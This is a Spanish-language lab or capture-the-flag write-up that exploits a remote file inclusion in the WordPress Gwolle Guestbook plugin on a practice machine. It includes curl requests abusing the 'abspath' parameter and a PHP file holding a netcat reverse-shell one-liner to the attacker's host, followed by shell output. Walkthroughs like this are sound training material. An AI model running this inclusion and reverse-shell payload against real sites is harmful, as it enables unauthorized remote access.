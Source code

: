1. Montamos un servidor web en la maquina de atacante

    ```bash
    python3 -m http.server
    ```

1. Lanzamos una peticion GET sobre el url que el exploit nos da

    ```bash
    curl -s -X GET "http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.8/"
    ```

Aqui podemos comprobar que la maquina victima no esta enviando una peticion get a nuestro servidor web creado en python. A demas se puede ver que
la maquina victima esta intentando buscar un fichero `wp-load.php` que por el momento no existe.

## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Entablar una reverse shell desde la vulnerabilidad Gwolle {-}

1. Creamos el fichero `wp-load.php` que contiene

    ```php
    <?php
    system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f");
    ?>
    ```

1. Montamos un servidor web desde la maquina de atacante

    ```bash
    python3 -m http.server
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Lanzamos la peticion get con curl

    ```bash
    curl -s -X GET "http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.8/"
    ```

Ya podemos comprobar que estamos dentro de la maquina

```bash
whoami
#Output

www-data

hostname-I
#Output

10.10.10.88
```
